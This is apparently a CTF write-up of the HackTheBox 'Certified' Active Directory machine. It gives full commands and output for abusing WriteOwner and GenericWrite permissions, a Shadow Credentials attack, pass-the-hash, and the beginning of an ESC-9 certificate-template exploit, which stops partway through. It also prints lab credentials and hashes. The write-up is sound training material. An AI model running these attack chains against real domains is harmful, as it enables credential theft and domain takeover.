<p align="center">
  
</p>

---

- 🎯 **Target:** HackTheBox - Certified Windows AD Machine
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 21.06.2025
- 📊 **Difficulty:** Medium
- 📁 **Category:** Active Directory; Privilege Escalation
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Horizontal Privilege Escalation](#%EF%B8%8F-horizontal-privilege-escalation)
- [Shadow Credentials](#-shadow-credentials)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [ESC-9](#-esc-9)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{e9f8af9835ae1970538f12732e25f28e}`  |
|   Root Flag   | `flag{45ce140feb29179b6ca07a991a7cf394}`  |
|  Credentials  | `judith.mader:judith09`                   |
|   Technique   | ShadowCredentials			    |
|		| ESC-9     	    			    |

---

> I add the machine's IP address to /etc/hosts:

```bash

echo '10.10.11.41 certified.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> Scanning the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 certified.htb -oN cert_Tcp_scan

```

> Results:

```bash

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-12 22:35:57Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn

389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-25T01:25:41+00:00; +1m25s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified


445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0

636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-25T01:25:41+00:00; +1m25s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified

3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

```

> The scan showed a fairly large set of open ports and services.

> Pay attention to the following ports:

- `389` и `636` - порты на которых работают службы `ldap/ldaps` указывающие, что целью является контроллер домена именуемый как `DC01.certified.htb`;
- `88` порт - служба `kerberos`;
- `445` порт - служба `SMB` и `139` порт - NetBIOS.
- `5985` - `Winrm` служба удаленного управления

> I also write the domain controller `DC01.certified.htb` in `/etc/hosts`

> The first thing I'll do is scan the `SMB` port for available network directories using the provided credentials `judith.mader : judith09`.
> I'll use the `netexec (nxc)` utility:

```bash

nxc smb certified.htb -u 'judith.mader' -p 'judith09'
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09

```
> Authentication successful. Nice.

> View shares:

```bash

sonyahack1 kali ~                                                                                                                                                                                                                 09:35:09 PM
❯ nxc smb certified.htb -u 'judith.mader' -p 'judith09' --shares
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share

```

> Nothing interesting. Default system shares. No `logon scripts` or `.xml` files with passwords there.

> We look at the list of users and groups in the system by their **RID** (`--rid-brute`):

```bash

nxc smb certified.htb -u 'judith.mader' -p 'judith09' --rid-brute

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09
SMB         10.10.11.41     445    DC01             498: CERTIFIED\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             500: CERTIFIED\Administrator (SidTypeUser)
SMB         10.10.11.41     445    DC01             501: CERTIFIED\Guest (SidTypeUser)
SMB         10.10.11.41     445    DC01             502: CERTIFIED\krbtgt (SidTypeUser)
SMB         10.10.11.41     445    DC01             512: CERTIFIED\Domain Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             513: CERTIFIED\Domain Users (SidTypeGroup)
SMB         10.10.11.41     445    DC01             514: CERTIFIED\Domain Guests (SidTypeGroup)
SMB         10.10.11.41     445    DC01             515: CERTIFIED\Domain Computers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             516: CERTIFIED\Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             517: CERTIFIED\Cert Publishers (SidTypeAlias)
SMB         10.10.11.41     445    DC01             518: CERTIFIED\Schema Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             519: CERTIFIED\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             520: CERTIFIED\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.41     445    DC01             521: CERTIFIED\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             522: CERTIFIED\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             525: CERTIFIED\Protected Users (SidTypeGroup)
SMB         10.10.11.41     445    DC01             526: CERTIFIED\Key Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             527: CERTIFIED\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             553: CERTIFIED\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.41     445    DC01             571: CERTIFIED\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.41     445    DC01             572: CERTIFIED\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.41     445    DC01             1000: CERTIFIED\DC01$ (SidTypeUser)
SMB         10.10.11.41     445    DC01             1101: CERTIFIED\DnsAdmins (SidTypeAlias)
SMB         10.10.11.41     445    DC01             1102: CERTIFIED\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.41     445    DC01             1103: CERTIFIED\judith.mader (SidTypeUser)
SMB         10.10.11.41     445    DC01             1104: CERTIFIED\Management (SidTypeGroup)
SMB         10.10.11.41     445    DC01             1105: CERTIFIED\management_svc (SidTypeUser)
SMB         10.10.11.41     445    DC01             1106: CERTIFIED\ca_operator (SidTypeUser)
SMB         10.10.11.41     445    DC01             1601: CERTIFIED\alexander.huges (SidTypeUser)
SMB         10.10.11.41     445    DC01             1602: CERTIFIED\harry.wilson (SidTypeUser)
SMB         10.10.11.41     445    DC01             1603: CERTIFIED\gregory.cameron (SidTypeUser)

```

> I see many interesting points.

> Firstly I see the `Management` group and accordingly the `management_svc` service account, which is most likely a member of this group;

> Secondly there is a `ca_operator` user which is interesting since such a user is not standard in Windows; but based on its name, it can
> be responsible for administering the `certification service (CA)` in **Active Directory** and have certain privileges for performing operations related to certificates.

> **This is important to remember (will be useful later)**.

> Since there is presumably a user in the system that is associated with certificates I will find out whether the `ADCS` (`ACtive Directory Certified Service`) role is installed
> on this domain controller.

> To conduct reconnaissance of the `ADCS` infrastructure I use the `certipy-ad` utility:

```bash

certipy-ad find -u 'judith.mader@certified.htb' -p 'judith09' -dc-ip 10.10.11.41

```
> Results:

```bash

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'

```
> After conducting reconnaissance, `34 certificate templates` and the name of the **certification authority (CA)** - `certified-DC01-CA` were found. This server acts as a certificate authority.

---
> To summarize briefly. What do we have?

- We have a domain controller `dc01.certified.htb` on which the certificate authority role is installed - `ADCS`.
- The server has a group `management` and a service account `management_svc`;
- the user `ca_operator` who is most likely responsible for administering certificates;
- Also from the available credentials we only have the login and password of the user - `judith.mader:judith09` without direct access to the system;
---

> I will collect all available information about the current **Active Directory** infrastructure via `SharpHound` and output it to `BloodHound` as a graph of relations between all objects for further
> analysis and determination of potential `vectors for escalation`.

```bash

sudo python3 bloodhound.py -u 'judith.mader' -p 'judith09' -d certified.htb --nameserver 10.10.11.41 -c ALL --zip -op certified.htb

```
> Load the `certified.htb` archive into `BloodHound`. Set the `owned` label to the `judith.mader` user and build a dependency graph from it.

> Results:



> The graph shows a direct (or maybe not entirely direct :) ) escalation vector from `judith.mader` to user `ca_operator` by exploiting various permissions assigned to objects in the system.

> Ok. Let's go in order.
---
## 🧍➡️🧍 Horizontal Privilege Escalation

> `judith.mader` is not a member of the remote users group which is why we don't have direct access to the system via `rdp` or `winrm`:



> This user has `WriteOwner` permission on the `Management` object (group). This is our `first vector`.
---
> **Note:** `WriteOwner` - This permission allows you to change the `owner` of an object in the **Active Directory** infrastructure.
---

> Having this privilege means that I can change the owner of the `Management` group and assign it to the user `judith.mader`.

> I use the `owneredit` utility from the `impacket` python library set:

```bash

sudo impacket-owneredit -action write -new-owner 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41

```
> Results:

```bash

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!

```
> Re-collecting information via `SharpHound` and displaying changes in `BloodHound`:



> User `judith.mader` is now the owner of the `Management` group.

> For full control over the object we will grant `full rights` to the user `judith.mader`. I use the `dacledit` utility from the `impacket` python library set:

```bash

sudo impacket-dacledit -action write -rights FullControl -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41

```
> Result:

```bash

[*] DACL modified successfully!

```
> Displaying in `BloodHound`:


> Since members of the `Management` group have `GenericWrite` permissions over the `management_svc` service account then having full rights over this group I add the user `judith.mader` there.

> I use the `bloodyAD` utility to add:

```bash

sudo bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p judith09 add groupMember "Management" "judith.mader"

[+] judith.mader added to Management

```

> In `BloodHound` the result will be as follows:





> user `judith.mader` being a member of group `Management` has `GenericWrite` permissions on user `management_svc`

---
> **Note:** `GenericWrite` is a permission that allows you to `change/rewrite` attributes of objects in the system (**groups**, **users**, **computers**, etc.)
---

> This privilege gives us the ability to use the `ShadowCredentials` attack - our access to the `management_svc` service account.

### 🔑 Shadow Credentials

---
> **Note:** `Shadow Credentials` is an attack technique that essentially overwrites the `msDS-KeyCredentialLink` attribute of the `management_svc` object by adding an entry
> containing our pre-generated public key and thus tricking `AD` into thinking that the `management_svc` user has a legitimate authentication method via a trusted certificate
> in addition to the password (**which we don't know**). In simple terms - we simply **add a new authentication method** for the `management_svc` user.
---

> To implement this attack I use the `pyWhisker` utility:

```bash

sudo python3 pywhisker.py -a add -t management_svc -u judith.mader -p judith09 --dc-ip 10.10.11.41 -d certified.htb -v

```
> Result:

```bash

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 4a56e83b-413d-87d0-02eb-698b6987cac9
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: sZBxFbe3
[VERBOSE] No pass was provided. The certificate will be stored with the password: oANpwVqVEGdppJjpLxil
[*] Converting PEM -> PFX with cryptography: sZBxFbe3.pfx
[+] PFX exportiert nach: sZBxFbe3.pfx
[i] Passwort für PFX: oANpwVqVEGdppJjpLxil
[+] Saved PFX (#PKCS12) certificate & key at path: sZBxFbe3.pfx
[*] Must be used with password: oANpwVqVEGdppJjpLxil
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

```


> Having a record with a **public key** in the `msDS-KeyCredentialLink` attribute of the `management_svc` user I can request a **kerberos ticket** - `TGT` on his behalf using
> authentication by my certificate containing the private key.

> I use the python script `gettgtpkinit` from the `PKINITtools` set:

```bash

sudo python3 gettgtpkinit.py -cert-pfx sZBxFbe3.pfx -pfx-pass 'oANpwVqVEGdppJjpLxil' -dc-ip 10.10.11.41 certified.htb/management_svc management_svc.ccache

```
> Result:

```bash

2025-06-25 21:27:25,941 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-25 21:27:25,957 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-25 21:27:38,207 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-25 21:27:38,207 minikerberos INFO     5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33
INFO:minikerberos:5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33
2025-06-25 21:27:38,214 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```


> I get `.ccache` file and `session key` - `5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33`

---
> **Note:** `ccache` is `credential cache` - cache of kerberos tickets. That is the file in which `TGT` itself is stored
---

> I add the received `ccache` file to the `KRB5CCNAME` variable to tell the kerberos utilities where to look for the file with `TGT`:

```bash

export KRB5CCNAME=management_svc.ccache

```

> I extract the `NT-hash` of the `management_svc` user password from the `.ccache` file using the `getnthash` script from the `PKINITtools` suite:

```bash

sudo python3 getnthash.py certified.htb/management_svc -key 5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33 -dc-ip 10.10.11.41

```
> Result:

```bash

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash

a091c1832bcdd4677c28b5a6a1295584

```
> We have login and `NT-hash` of user `management_svc`. In `BloodHound` we can see that user is a member of `Remote Management Users` group:



> This means that I can authenticate to the system via `winrm` using the received credentials:

```bash

evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\management_svc\Documents> whoami
certified\management_svc
*Evil-WinRM* PS C:\Users\management_svc\Documents>

```
> I get first flag:

```bash

*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ../
*Evil-WinRM* PS C:\Users\management_svc> cd Desktop
*Evil-WinRM* PS C:\Users\management_svc\Desktop> ls


    Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/25/2025   5:17 PM             34 user.txt


*Evil-WinRM* PS C:\Users\management_svc\Desktop> more user.txt
e9f8af9835ae1970538f12732e25f28e

*Evil-WinRM* PS C:\Users\management_svc\Desktop>

```

> user flag - `e9f8af9835ae1970538f12732e25f28e` . User has been compromised.

---
> How does it work?

> With `GenericWrite` permission on the `management_svc` service account, we have the ability to overwrite or add new entries to certain attributes of this object, 
> for example - `msDS-KeyCredentialLink`. In this case, the `ShadowCredentials` technique was used, which generates a pair of keys - **private key** and **publick key**.
> Based on them a certificate (`.pfx`) is created for authentication.

> What happens next? Using the `pyWhisker` tool a new entry is added to the `msDS-KeyCredentialLink` attribute of the `management_svc` user as a structure with a unique `KeyID`
> of the key, `PublicKey`, the `Usage` parameter indicating that the key will be used for authentication and `Owner` - the DN of the user to whom the key (`management_svc`) is bound.

> Then we request on behalf of the `management_svc` user his `TGT` - **kerberos ticket** indicating the generated certificate as the authentication method. We kind of trick the domain
> controller and make it think that the user, in addition to his password (**which we do not know)**, can authorize using a certificate whose public key is bound to our private key.

> Having received the `TGT` we extracted the `NT hash` from it and used it to obtain a full-fledged session in the system. Thus the user `management_svc` was compromised
> **without having the password for his account**.
---

## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> We have a session in the system under `management_svc`. Also `BloodHound` shows `GenericAll` rights over user `ca_operator`.



---
> **Note:** `GenericAll` - these are the full permissions on the object in AD
---

> I have previously used the `certipy-ad` utility to probe the `ADCS` infrastructure and determine the name of the certificate authority (CA). But this is the maximum we can do with
> the credentials of the user `judith.mader`. For example, we cannot view the found certificate templates (34 in total):





> `judith.mader` does not have access to view any templates. The situation is similar with the user `management_svc`.

---
> **Note:** At the very beginning I said that the user `ca_operator` is interesting and worth remembering. Well, the name of this account speaks for itself. It should have privileges
> over operations related to certificate templates including `read` rights to simply view them.
---

> I already have access to the system under `management_svc` which has `GenericAll` over the user `ca_operator`. I change the password for the `ca_operator` account so that I can log in.

```bash

*Evil-WinRM* PS C:\Users\management_svc\Documents> Set-ADAccountPassword -Identity "ca_operator" -NewPassword (ConvertTo-SecureString "qwerty123" -AsPlainText -Force) -Reset

```
> Requesting **active** and **vulnerable** certificate templates on behalf of `ca_operator`:

```bash

sudo certipy-ad find -u 'ca_operator@certified.htb' -p qwerty123 -dc-ip 10.10.11.41 -vulnerable -enabled

```
> Result:



### 🔑 ESC-9

> `ca_operator` has permission to view and request certificates. The output shows the template `CertifiedAuthentication` vulnerable to the `ESC-9` attack.
> I'll briefly go over the **red flags**.

> **Firstly** this template allows users to request certificates but does not require **verification of the owner** of the certificate since the `Enrollment Flag`
> parameter specifies `NoSecurityExtension`:



> **Second** the requesting user can specify an alternative `UPN` since the `SubjectAltRequireUpn` flag is set.

